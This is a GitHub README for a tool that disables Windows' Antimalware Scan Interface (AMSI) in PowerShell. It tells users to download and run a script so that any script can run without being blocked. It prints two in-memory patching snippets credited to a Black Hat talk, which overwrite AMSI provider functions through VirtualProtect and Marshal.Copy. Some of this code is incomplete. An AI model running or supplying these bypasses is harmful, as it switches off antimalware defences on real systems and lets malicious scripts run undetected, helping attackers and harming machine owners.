



# bypass-amsi-powershell
<div align="center">
	<br />
	<p>
		<a href="#"></a>
	</p>
	<br />
	<p>
		<a href="https://discord.gg/ndjNzKCmff"></a>
		<a href="https://github.com/luke-beep"></a>
    </p>
</div>


AMSI stands for "Antimalware Scan Interface." It is a Microsoft Windows interface that allows antivirus and other security software to scan scripts and other types of content in memory, before they are executed. This allows the security software to detect and prevent the execution of malicious scripts, such as those used by malware or other types of cyber threats. AMSI was introduced in Windows 10 and is also supported in Windows Server 2016 and later versions. This script essentially breaks the AMSI protection by breaking one of the components in the AMSI chain.

This script can run on any of [these](./static/VERSIONS.md) versions of Windows.

### Usage
---

Simply download the [script](./script/bypass-amsi.dll.ps1) and run it in powershell. It will automatically bypass AMSI (Antimalware Scan Interface) and allow you to run any powershell script without being blocked by AMSI (Antimalware Scan Interface).

### Why does it work?
---

By breaking one of the chains as in this architecture, it allows the script to run without being blocked by AMSI (Antimalware Scan Interface). 

<a href="#"></a> 

### 1st Method by Maor Korkos
---

```powershell
Add-Type $APIs
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
$LoadLibrary = [APIs]::LoadLibrary("MpOav.dll")
$Address = [APIs]::GetProcAddress($LoadLibrary,
"DllGetClassObject")
$p = 0
[APIs]::VirtualProtect($Address, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
$object = [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils')
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```
AMSI (Antimalware Scan Interface) Bypass created By Maor Korkos https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf | Page 43


### 2nd Method by Maor Korkos
---

```powershell
[DllImport("amsi")]
public static extern int AmsiInitialize(string appName, out IntPtr context);
$SIZE_OF_PTR = 4; $NUM_OF_PROVIDERS = 2; $ctx = 0; $p = 0
$ret_zero = [byte[]] (0xb8, 0x0, 0x00, 0x00, 0x00, 0xC3)
[APIs]::AmsiInitialize("MyAmsiScanner", [ref]$ctx)
for ($i = 0; $i -lt $NUM_OF_PROVIDERS; $i++)
{
$CAmsiAntimalware = [System.Runtime.InteropServices.Marshal]::ReadInt32($ctx+8)
$AntimalwareProvider = [System.Runtime.InteropServices.Marshal]::ReadInt32($CAmsiAntimalware+36
+($i*$SIZE_OF_PTR))
$AntimalwareProviderVtbl = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProvider)
$AmsiProviderScanFunc = [System.Runtime.InteropServices.Marshal]::ReadInt32($AntimalwareProviderVtbl+12)
[APIs]::VirtualProtect($AmsiProviderScanFunc, [uint32]6, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($ret_zero, 0, $AmsiProviderScanFunc, 6)
}
```

AMSI (Antimalware Scan Interface) Bypass created By Maor Korkos https://i.blackhat.com/Asia-22/Friday-Materials/AS-22-Korkos-AMSI-and-Bypass.pdf | Page 51


### Showcase

Showcase of this script in action

<a href="./static/amsibreaktutorial.png"></a>